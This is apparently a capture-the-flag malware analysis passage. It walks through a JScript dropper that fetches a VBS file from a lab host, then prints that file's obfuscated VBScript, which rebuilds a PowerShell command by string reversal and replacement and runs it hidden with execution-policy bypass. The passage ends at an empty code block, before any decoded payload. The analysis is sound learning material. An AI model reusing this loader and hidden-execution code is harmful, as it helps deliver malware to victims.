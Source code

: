 ```js
    while (ExecutionHandle.Status === 0) {
        WScript.Sleep(100);
    }
    FileSystemObject.DeleteFile(FilePath);

} else {
    WScript.Echo("Fatal: " + HTTPObject.status);
}
```
The script will download a `VBS` file, save it in a temp folder and execute it. The malicious file is coming from `http://infected.human.htb/d/BKtQR`. After startup up the docker instance and adding the domain to our host file, we can download this file to our machine.

This file contains a large amount of obfuscated data. Some variables that are never reused are removed so that we can better understand the script:
```vba
OBFUSCATED  = "Jem9tYmllcBpem9tYmllcG0em9tYmllcYQBnem9tY..."
OBFUSCATED = Replace( OBFUSCATED, CpBIhAVXkwtYAYiRfMTeXHopPLyLoHhHtDaysxBQVjyz...

COMMAND = COMMAND & StrReverse("xujWO$;")
COMMAND = COMMAND & StrReverse("ys[ = d")
COMMAND = COMMAND & StrReverse("eT.mets")
COMMAND = COMMAND & StrReverse("ocne.tx")
COMMAND = COMMAND & StrReverse("::]gnid")
COMMAND = COMMAND & StrReverse("edocinU")
COMMAND = COMMAND & StrReverse("rtSteG.")
COMMAND = COMMAND & StrReverse("gni")

COMMAND = COMMAND & "([ZjJMuHOyfLrFRZQLRAMTQIJoIsDKygFhOhIUsFhmYGpMtHYXYriuBkzrHlGxHgtwOVBcJpaoSYXw..."
COMMAND = COMMAND & "wDRSCDEGplfmoDjPrgYmdejlOxRRTwXXqUxtEpkdbzFGZtRYqCBgefVWmDfUZnbLpaQQTIAMcveTJe..."

...

COMMAND = Replace(COMMAND, "TQIJoIsDKygFhOhIUsFhmYGpMtHYXYriuBkzrHlGxHgtwOVBcJpaoSYXwYihoBDwDRSCDEGplfmoDjPrgYmdejlOxRRTwXXqUxtEpkdbzFGZtRYqCBgefVWmDfUZnbLpaQQTIAMcveTJekTjNZjNfCJawQsxvvTLaqAKZUciNlCQgVQFoKfnXYUTpOaNcbqsaDpdjNnD", "e")
COMMAND = Replace(COMMAND, "YdiovnqyjTDXTaRYzrOrPtPSPEkGydtHpsDzuMmtvwWDgfonHmlbiWofBzfzWwPCyghETBLJtSXhZTteJymwidWxlLmZRoJmxzHcFtMNHFLqYxcpgFpHeIhwiWILHovZEyZuwgHbTGwMVrwwjpWojiuZPXGPnkWzSsIhWOckYJSLGuGYaBQbdomrjcmnDFZVNWqVGjwx", "o")
COMMAND = Replace(COMMAND, "ZjJMuHOyfLrFRZQLRAMejVORkrLmnSCXRqVNBLINqTtavYGXNKmWkKgLUKpRuknZoStcKiPTtlSLTzbLLKnqBLvCxwwfYDUEJVRbZAqnPXJFfwKgaKoaTyXvWlktaXauDNHvgmoqbgdjOoBAwieAxhmIQTQGWVjowvkJpSMpEPnfitrQGRfXaVLxUPAmLRGwRAEgjqTg", "s")
COMMAND = Replace(COMMAND, "SjnKkClLMbtbUbEphNmdQTEXfhFHyXgQvKXvohDxuaGQdsTVSnrqEPEsLAdRQxDbDqFawzwRYThIFGZFjDIAEWMnWgxyLATxLKfXLJGtQgEqlXlrEBLbufduqlrgvcKaQAuxxmISiInqdFxetxSvuwcnvTQZlRnsnrezMZamRBgFTQGJcmEpKQISyYXRLVbdBQEdwdle", "t")
COMMAND = Replace(COMMAND, "VXIxBYQSKDryEAULIfGtTdegkaavJdWnPtXZlxmbyRZbRztkgJXWSKYsPfdAvLjUlqQqikfohaKubLssSrhTyIatsqjlfjIBXVfmwFkVqYIyCtYmjprSExKIzpcAdoVBTPRwuxasqmXvYvnHQlXgZBCYBqolLMBaNbIspDogrWvPdQlBBtHAGkUozkbMEJZIHTuiLIxX", "a")
COMMAND = Replace(COMMAND, "COMMANDdAuCBFCwdFvnAC", "A")

COMMAND = COMMAND & StrReverse("'DxujWO$ dnammoc- eliforPoN- ssapyb ycilopnoitucexe- neddih elytswodniw- exe.llehsrewop")
script_object.Run "powershell -command " & COMMAND, 0, False
```
After doing the required replacements in the code we get something like this:
```powershell
```